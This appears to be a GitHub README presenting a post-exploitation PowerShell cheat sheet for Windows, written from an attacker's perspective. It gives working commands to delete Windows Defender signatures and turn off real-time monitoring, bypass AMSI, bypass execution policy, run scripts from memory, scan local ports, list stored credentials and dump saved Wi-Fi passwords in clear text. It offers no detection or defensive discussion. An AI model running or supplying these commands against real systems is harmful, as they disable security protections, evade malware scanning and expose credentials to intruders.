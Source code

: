 ## 1. Bypassing Windows Defender
Windows Defender is going to raise the first alarm. Disabling it is not an
option. </br>
A PowerShell script can <b>delete all signatures</b> in Defender making it
impossible for Defender to compare inbound malicious entities and raise the
alerts.
```powershell
& "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
Set-MpPreference -DisableRealtimeMonitoring $true
```
![Screenshot of disabling Windows Defender](./images/screenshot1.png)
---
## 2. system and network information
This script retrieves all properties of the operating system & network interface configurations
```powershell
Get-WmiObject -Class Win32_OperatingSystem | Select-Object -Property *
Get-NetIPConfiguration
```
![Screenshot of Get-WmiObject command](./images/screenshot2.png)
![Screenshot of Network Interface Info](./images/screenshot3.png)
---
## 3. List all the processes running on the system
This script retrieves running processes and sorts them by CPU usage in descending order.
```powershell
Get-Process | Select-Object -Property ProcessName, Id, CPU | Sort-Object -Property CPU -Descending
```
![Screenshot of Get-Process command](./images/screenshot4.png)
---
## 4. The attacker might want to scan for open ports
This script first retrieves all active TCP connections, showing their state, local address, port, and owning process.
It then will scan 1 to 1024 open ports to check for vulnerabilities that the attacker can exploit.
```powershell
Get-NetTCPConnection | Select-Object -Property State, LocalAddress, LocalPort, OwningProcess

1..1024 | ForEach-Object {
   $sock = New-Object System.Net.Sockets.TcpClient
   $async = $sock.BeginConnect('localhost', $_, $null, $null)
   $wait = $async.AsyncWaitHandle.WaitOne(100, $false)
   if($sock.Connected) {
       Write-Host "$_"
   }
   $sock.Close()
}
```
## 5.  Bypassing AMSI (Antimalware Scan Interface) to execute malicious scripts
The attacker might want to evade built-in PowerShell defenses before running scripts using the below command:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic, Static').SetValue($null, $true)
```
![Screenshot of Bypassing AMSI Script](./images/screenshot6_1.png)
![Screenshot of Bypassing AMSI Script](./images/screenshot6_2.png)
---
## 6. Bypassing execution policy to run unsigned scripts
What is [PowerShell Gallery](https://www.powershellgallery.com/)? </br>
The following command temporarily bypasses the script execution policy to run a PowerShell script, allowing execution of unsigned scripts.
```powershell
Set-ExecutionPolicy Bypass -Scope Process; .\script.ps1
```
---
## 7. Bypass Execution Policy Temporarily
The command temporarily changes the script execution policy to allow the
running of unauthorized scripts, then reverts it back to its original state.
```powershell
$policy = Get-ExecutionPolicy;
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process;
# Scriptofyourchoice;
Set-ExecutionPolicy -ExecutionPolicy $policy -Scope Process
```
---
## 8. Execute PowerShell Script from Memory
The attacker might want to run the entire PS script in memory without writing to the hard drive.
```powershell
# Read the content of the script from the file in memory
$code = [System.IO.File]::ReadAllText('C:\temp\script1.ps1')
# Execute the PowerShell script in memory
Invoke-Expression $code
```
---
## 9. Retrieving Stored Credentials
This command lists all stored credentials.
```powershell
cmdkey /list
```
![Screenshot of List Stored Credentials](./images/screenshot8.png)
---
## 10. Extract Wi-Fi Profile Names and Passwords
This script extracts Wi-Fi profile names and passwords stored on the computer.
```powershell
netsh wlan show profiles |
Select-String -Pattern 'All User Profile' |
ForEach-Object {
   $profileName = ($_ -replace 'All User Profile\s*:\s*','').Trim()
   netsh wlan show profile name="$profileName" key=clear
}
```
![Screenshot of Extract Wi-Fi Profile Names and Passwords](./images/screenshot10.png)

